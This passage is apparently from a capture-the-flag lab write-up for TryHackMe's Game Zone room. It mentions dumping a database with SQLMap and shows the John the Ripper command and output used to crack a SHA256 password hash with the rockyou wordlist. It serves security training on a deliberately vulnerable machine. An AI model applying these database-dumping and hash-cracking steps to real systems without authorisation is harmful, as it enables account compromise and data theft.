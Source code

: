 ```bash
```

This will take some time as SQLMap will try different ways of exploiting the DB, eventually it should dump the database.

> Question #2 In the users table, what is the hashed password?

From the data displayed by the tool we get that answer, also the next one as well.

> Question #3 What was the username associated with the hashed password?

Let's move to the next Task.

[Task 4] Cracking a password with JohnTheRipper
-----------------------------------------------

John the Ripper (JTR) is a fast, free and open-source password cracker. This is also pre-installed on all Kali Linux machines.

We will use this program to crack the hash we obtained earlier. JohnTheRipper is 15 years old and other programs such as HashCat are one of several other cracking programs out there. 

This program works by taking a wordlist, hashing it with the specified algorithm and then comparing it to your hashed password. If both hashed passwords are the same, it means it has found it. You cannot reverse a hash, so it needs to be done by comparing hashes.

For this we need the hash string we found with SQLMap, save that into a txt file.

To run John we use the following command and we'll use **rockyou.txt** as our wordlist:


```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=RAW-SHA256

```
Let's break down that those options mean:

- hash.txt - contains a list of your hashes (in your case its just 1 hash)
- --wordlist - is the wordlist you're using to find the dehashed value
- --format - is the hashing algorithm used. In our case its hashed using SHA256.

Let's run John:

```bash
kali@kali:~/Documents/THM/gameZone$ sudo john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=RAW-SHA256
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 128/128 AVX 4x])
Warning: poor OpenMP scalability for this hash type, consider --fork=8
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
REDACTEDPASSWORD    (?)
1g 0:00:00:00 DONE (2020-08-24 15:31) 2.941g/s 8673Kp/s 8673Kc/s 8426KC/s vimivi..vainlove
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed

```

> Question #2 What is the de-hashed password?
